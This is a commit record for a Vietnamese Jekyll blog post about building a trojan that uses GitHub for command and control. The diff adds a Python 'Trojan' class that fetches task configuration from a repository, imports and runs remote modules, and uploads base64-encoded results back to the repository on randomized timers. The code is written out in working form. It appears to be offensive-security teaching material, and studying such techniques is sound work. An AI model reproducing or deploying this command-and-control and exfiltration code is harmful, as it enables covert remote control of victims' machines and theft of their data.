

Before and after one commit to ybvy/ybvy.github.io, a Jekyll site: the page built from _posts/2025-03-21-trojan-with-github.md, in a window 1280 px wide and 1400 px high, scrolled down 5132 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 5759 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add post trojan

```diff
--- a/_posts/2025-03-21-trojan-with-github.md
+++ b/_posts/2025-03-21-trojan-with-github.md
@@ -272,21 +272,79 @@ class GitImporter:
         return new_module
 {% endhighlight %}
 
-Khi bạn import 1 module trong **Python**:
+Khi import 1 module trong **Python**:
 1. Python sẽ tìm kiếm module từ thư mục hệ thống hoặc các đường dẫn tùy chỉnh.
 2. Nếu không tìm thấy, nó kiểm tra các loader tùy chỉnh trong sys.meta_path.
 3. Nếu có loader có phương thức **find_module()**, Python gọi:
 {% highlight bash %}
 loader = GitImporter().find_module('my_remote_module')
 {% endhighlight %}
-* `name = "my_remote_module"` được truyền tự động bởi Python. Tức, khi bạn **import** 1 module mà nó không có sẵn thì `name` là tên của module không có sẵn đó.
-
-4. Nếu **find_module()** trả về một đối tượng hợp lệ, Python sẽ gọi tiếp:
+* `name = "my_remote_module"` được truyền tự động bởi Python. Tức, khi **import** 1 module mà nó không có sẵn thì `name` là tên của module không có sẵn đó.
+* Nếu **find_module()** trả về một đối tượng hợp lệ, Python sẽ gọi tiếp:
 {% highlight bash %}
 loader.load_module('my_remote_module')
 {% endhighlight %}
 * `name = "my_remote_module"` lại được truyền vào load_module() tự động.
-Nhờ đó, dù bạn không gọi load_module() trực tiếp, Python vẫn truyền vào name đúng.
+Nhờ đó, dù không gọi load_module() trực tiếp, Python vẫn truyền vào name đúng.
+
+> Trojan class
+{% highlight bash %}
+class Trojan:
+    """Main Trojan class to manage module execution."""
+    def __init__(self, id, repo):
+        self.id = id
+        self.config_file = f'{id}.json'
+        self.data_path = f'data/{id}/'
+        self.repo = repo
+
+    def get_config(self):
+        """Fetches the configuration file and imports required modules."""
+        try:
+            config_json = get_file_content('config', self.config_file, self.repo)
+            config = json.loads(config_json)
+
+            for task in config:
+                if task['module'] not in sys.modules:
+                    __import__(task['module'])
+
+            return config
+        except Exception as e:
+            print(f"[!] Error loading config: {e}")
+            return []
+
+    def module_runner(self, module):
+        """Runs a specified module and stores the result."""
+        try:
+            result = sys.modules[module].run()
+            self.store_module_result(result)
+        except Exception as e:
+            print(f"[!] Error running module {module}: {e}")
+
+    def store_module_result(self, data):
+        """Stores module execution results in the repository."""
+        try:
+            message = datetime.now().isoformat()
+            remote_path = f'data/{self.id}/{message}.data'
+            bindata = bytes('%r' % data, 'utf-8')
+            self.repo.create_file(remote_path, message, base64.b64encode(bindata))
+        except Exception as e:
+            print(f"[!] Error storing result: {e}")
+
+    def run(self):
+        """Continuously fetches config and runs tasks."""
+        while True:
+            config = self.get_config()
+            for task in config:
+                threading.Thread(
+                    target=self.module_runner,
+                    args=(task['module'],)
+                ).start()
+                time.sleep(random.randint(1, 10))
+
+            time.sleep(random.randint(30*60, 3*60*60))
+{% endhighlight %}
+
+---
 
 <script src="https://giscus.app/client.js"
         data-repo="ybvy/ybvy.github.io"
```
